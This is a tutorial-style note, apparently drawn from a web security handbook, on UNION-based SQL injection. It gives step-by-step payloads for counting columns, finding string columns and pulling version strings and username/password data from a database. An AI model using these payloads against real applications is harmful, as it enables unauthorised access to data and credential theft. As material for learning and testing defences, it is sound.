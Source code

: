 # The UNION Operator

The **`UNION`** operator combines the results of two or more `SELECT` queries into a single result set. If a SQL injection flaw occurs within a `SELECT` statement and the output is reflected back to the user, the `UNION` operator can be exploited to extract **arbitrary data** from the database.

---

## Basic Concept

*Example scenario*:
- Original query when searching for "Wiley":
  ```sql
  SELECT author, title, year FROM books WHERE publisher = 'Wiley'
  ```

- Injected input:
  ```
  Wiley' UNION SELECT username, password, uid FROM users--
  ```

- Final query:
  ```sql
  SELECT author, title, year FROM books WHERE publisher = 'Wiley'
  UNION SELECT username, password, uid FROM users--'
  ```

- Result:
  ```
  AUTHOR       TITLE                      YEAR
  Litchfield   The Database Hacker's...   2005
  Anley        The Shellcoder's Handbook  2007
  admin        r00tr0x                    0
  cliff        Reboot                     1
  ```

> The second `SELECT` extracts data from a completely different table and appends it to the legitimate results.

---

## Key Conditions for UNION Injection

To successfully exploit a UNION-based injection:

* **Number of Columns Must Match**: The two `SELECT` statements must return the same number of columns.
* **Compatible Data Types**: Each column in the injected query must be compatible (or convertible) with the corresponding column in the original query.
* **Knowledge of Table/Column Names**: To extract meaningful data, the attacker needs to know the relevant schema.

---

## Common Errors

- **Mismatched column count**:
  ```sql
  ORA-01789: query block has incorrect number of result columns
  ```

- **Incompatible data types**:
  ```sql
  ORA-01790: expression must have same datatype as corresponding expression
  ```

> Error codes vary by DBMS. Refer to the “SQL Syntax and Error Reference” section for equivalents.

---

## Practical Advantages for Attackers

* **NULL values are versatile**: `NULL` is implicitly convertible to any type and can be used to test column count.
* **Visible impact**: Even if errors are not returned, injected data often results in changes to the rendered HTML or raw response.
* **Only one string column needed**: Most attacks only require a single string-type column to retrieve useful data.

---

## HACK STEPS

### **Step 1: Determine the Number of Columns**
- Inject `NULL` values in increasing counts:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL--
  ```

- If successful:
  - Error disappears (if visible), or
  - Extra row(s) appear in the response.

- **Oracle only**: Every `SELECT` requires a `FROM` clause:
  ```
  ' UNION SELECT NULL FROM DUAL--
  ```

---

### **Step 2: Identify a String-Compatible Column**
- Replace each `NULL` with a test string to find which columns support string data:
  ```
  ' UNION SELECT 'a', NULL, NULL--
  ' UNION SELECT NULL, 'a', NULL--
  ' UNION SELECT NULL, NULL, 'a'--
  ```

- Look for `"a"` in the application’s response.

---

### **Step 3: Extract Arbitrary Data**
- Once the structure is known (e.g., 3 columns with string-compatible first column), test data extraction:
  - **MS-SQL / MySQL**:
    ```sql
    ' UNION SELECT @@version, NULL, NULL--
    ```

  - **Oracle**:
    ```sql
    ' UNION SELECT banner, NULL, NULL FROM v$version--
    ```

- Example result:
  ```
  AUTHOR         TITLE      YEAR
  Oracle9i...    Production 9.2.0
  ```

---

## NOTE

- **Injected data** will be mapped into the structure of the original query. For instance, passwords might appear in the `title` column.
- **Schema awareness** is often necessary to move beyond version strings and extract sensitive data.
- **This method is the fastest way to retrieve bulk data**, making it highly valuable where output is reflected.

---

## TIP

In error-suppressed environments:
- Use the appearance of injected rows to detect successful execution.
- View raw HTTP responses to avoid missing injected but invisible content (like empty `<td>` tags).
